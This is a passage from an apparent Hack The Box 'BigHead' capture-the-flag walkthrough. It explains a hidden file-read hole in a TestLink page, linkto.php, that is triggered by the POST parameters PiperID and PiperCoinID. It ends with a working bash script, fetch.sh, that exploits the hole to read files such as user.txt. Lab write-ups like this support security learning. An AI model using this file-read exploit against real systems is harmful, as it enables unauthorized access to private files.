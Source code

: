 Well, at least now I know where `user.txt` is located and this is the real deal. While I was smashing my head trying to figure out how to read `c:\users\nginx\desktop\user.txt`, I saw something extraordinary at `/apps/testlink/htdocs/logs/userlog0.log`.

<a class="image-popup">
![0ec6e212.png](/assets/images/posts/bighead-htb-walkthrough/0ec6e212.png)
</a>

Something funky is going on in `linkto.php`!

<a class="image-popup">
![a3719128.png](/assets/images/posts/bighead-htb-walkthrough/a3719128.png)
</a>

Can you see the vulnerability? We can read files as long as there are two POST parameter: `PiperID` and `PiperCoinID` (path to the file). Let's read `c:\users\nginx\desktop\user.txt`!

<a class="image-popup">
![4c515d00.png](/assets/images/posts/bighead-htb-walkthrough/4c515d00.png)
</a>

## Getting to `root.txt`

Armed with this knowledge, I wrote a `bash` script that allows me to fetch files and display them on the standard output, given the file path as the arguement.

<div class="filename"><span>fetch.sh</span></div>

```bash
#!/bin/bash

GARBAGE=18684
TEMP=$(mktemp -u)
FILE=$1

curl -s \
     -d "PiperID=" \
     -d "PiperCoinID=$FILE" \
     -o $TEMP \
     http://127.0.0.1:5080/testlink/linkto.php

SIZE=$(wc -c < $TEMP)

dd if=$TEMP count=$((SIZE - GARBAGE)) bs=1 2>/dev/null

# clean up
rm -f $TEMP
```